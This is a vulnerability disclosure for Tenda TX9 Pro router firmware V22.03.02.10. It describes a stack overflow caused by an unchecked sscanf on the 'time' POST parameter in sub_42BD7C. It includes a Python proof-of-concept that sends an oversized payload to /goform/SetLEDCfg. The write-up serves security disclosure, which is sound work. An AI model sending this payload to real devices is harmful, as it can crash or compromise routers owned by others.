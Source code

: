 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-4219.html

## Affected version

TX9 Pro Firmware  V22.03.02.10

## Vulnerability details

The Tenda TX9 Pro Firmware  V22.03.02.10 firmware has a stack overflow vulnerability in the `sub_42BD7C` function. The `v3` variable receives the `time` parameter from a POST request and `v3` is directly parsed into the `v5`, `v6`, `v7` and `v8`. However, since the user can control the input of `v3`, the statement `sscanf(v3, "%d:%d-%d:%d", &v5, &v6, &v7, &v8);` can cause a buffer overflow by `v5`, `v6`, `v7` and `v8`.

![image-20240416115646108](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416115646108.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetLEDCfg"
payload = 'a'*1000 + ':aaaa-bbb:1'

data = {"time": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114654675](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114654675.png)
